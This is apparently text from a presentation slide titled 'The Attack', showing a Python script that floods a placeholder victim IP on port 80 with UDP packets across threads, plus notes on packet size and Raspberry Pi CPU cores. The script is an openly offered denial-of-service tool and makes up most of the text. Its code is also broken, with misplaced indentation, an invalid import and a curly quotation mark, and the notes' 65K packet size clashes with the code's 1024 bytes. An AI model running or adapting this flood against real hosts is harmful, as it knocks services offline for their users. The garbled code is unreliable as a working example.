

# The Attack
#!/usr/local/bin/python3
import random
import socket
import threading
from locale import str
ip = ”VICTIM IP ADDRESS HERE"
port = 80
choice = "UDP"
times = 1
threads = 1
file_txt = open("attack_errors.txt", 'a')
def floodUDP():
	j = True
	data = random._urandom(1024)
	while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		address = (ip, port)
		for x in range(times):
		s.sendto(data, address)
		if j == True:
			file_txt.writelines("Sent packets.\n")
			j = False
	except Exception as e:
		file_txt.write(str(e))
		file_txt.write("\n")
		break

for y in range(threads):
	th = threading.Thread(target=floodUDP)
	th.start()
 DoS written in Python
 Sent continuous stream of UDP packets – UDP packet flood
 Each packet preloaded with random byte string of size 65K bytes

 CPU on each Pi has 4 cores
 Each core has 4 threads
 No hyperthreading!